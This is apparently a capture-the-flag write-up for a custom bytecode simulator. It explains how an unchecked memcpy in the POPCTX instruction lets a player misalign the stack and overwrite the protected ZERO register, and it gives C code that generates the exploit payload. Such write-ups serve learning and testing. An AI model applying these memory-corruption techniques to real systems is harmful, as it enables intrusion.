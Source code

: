 The following snippet shows how the admin code prints the flag:
```c
    // Print each 4-bytes of the flag as 4-characters
    // (We might print some trailing null-characters if the flag length is not divisible by 4)
    int32_t * flag_start = (int32_t *)flag_string;
    int32_t * flag_end = (int32_t *)((char *)flag_string + strlen(flag_string));
    for (int32_t * p = flag_start; p <= flag_end; ++p)
    {
        int32_t dword = *p;

        ret |= file_write_opcode_imm32(payload_fp, ADDI, ASM_REGISTER_R1, ASM_REGISTER_ZERO, dword);
        for (size_t j = 0; j < 4; j++)
        {
            ret |= file_write_opcode1(payload_fp, PRINTC, ASM_REGISTER_R1);
            ret |= file_write_opcode_imm32(payload_fp, ROR, ASM_REGISTER_R1, ASM_REGISTER_R1, 8);
        }
    }
```

**To solve this**, we will need to replace the ``ZERO`` register with the value ``-41`` and ``R0`` with the value ``1``(more about it is described in '_Solution_').

**The problem is**, as mentioned earlier, the simulator checks whenever we are trying to replace the contents of the ``ZERO`` register during write operation and throws a ``E_W2ZERO`` error code. We will have to overcome this obstacle.

# Solution

When saving and restoring the registers 'snapshot'/context(part of a ``POPCTX`` and ``PUSHCTX`` instruction), the simulator **also includes** the contents of the ``ZERO`` register as part of the context structure:

```c
sp_val -= sizeof(registers);
memcpy(registers, &asm_stack[sp_val], sizeof(registers));
```

This allows us to create a specially-crafted register context structure and overwrite the ``ZERO`` register value. To do this, we need to:
* Perform a ``SUBI R0, 41`` to set the ``R0`` register to ``-41``
* Perform a ``PUSHCTX`` to push the registers context
* Execute a ``PUSH 0`` instruction to corrupt the context structure alignment
* Perform a ``POPCTX``, which will overwrite the the ``ZERO`` register with ``-41`` (previously, this was the value of ``R0`` but the whole structure shifted by 4 bytes in memory once we did an extra ``PUSH`` in step 3)

The payload generation code for this is below([./solve-dir/build_pwn.c](./solve-dir/build_pwn.c)):

```c
    ret |= file_write_opcode_imm32(payload_fp, SUBI, ASM_REGISTER_R0, ASM_REGISTER_ZERO, (int32_t)41);  // REG_ZERO (after we POPCTX)
    ret |= file_write_opcode_imm32(payload_fp, ADDI, ASM_REGISTER_R1, ASM_REGISTER_ZERO, (int32_t)0x1); // REG_R0   (after we POPCTX)
    ret |= file_write_opcode_imm32(payload_fp, ADDI, ASM_REGISTER_R2, ASM_REGISTER_ZERO, (int32_t)0x0); // REG_R1   (after we POPCTX)
    ret |= file_write_opcode_imm32(payload_fp, ADDI, ASM_REGISTER_R3, ASM_REGISTER_ZERO, (int32_t)0x0); // REG_R2   (after we POPCTX)
    ret |= file_write_opcode(payload_fp, PUSHCTX);                                                      // Pushing registers context
    ret |= file_write_opcode1(payload_fp, PUSH, (asm_register_t)ASM_REGISTER_R2);                       // Shifting the stack a little bit to make the POPCTX restore a 'malformed' structure of registers state 
    ret |= file_write_opcode(payload_fp,  (asm_opcode_t)POPCTX);                                        // Using POPCTX, Trigger the unsafe memcpy() and overwrite the ZERO_REG
    ret |= file_write_opcode3(payload_fp, XOR, ASM_REGISTER_R2, ASM_REGISTER_R2, ASM_REGISTER_R2);      // zero-ing out REG_R2 because the admin bytecode uses it after the user bytecode is executed
```